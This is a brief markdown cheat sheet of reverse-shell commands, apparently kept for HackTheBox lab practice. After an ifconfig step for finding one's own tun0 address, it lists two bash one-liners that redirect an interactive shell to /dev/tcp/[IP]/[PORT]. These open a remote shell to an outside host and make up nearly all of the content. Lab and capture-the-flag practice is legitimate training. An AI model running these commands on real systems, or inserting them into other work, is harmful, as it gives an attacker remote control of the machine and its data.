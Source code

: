 # Shells

Always remember to check your IP:

```bash
ifconfig [interface]
```

specify `tun0` as the interface on HacktheBox

## Bash Reverse

```bash
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

or

```bash
bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'
```
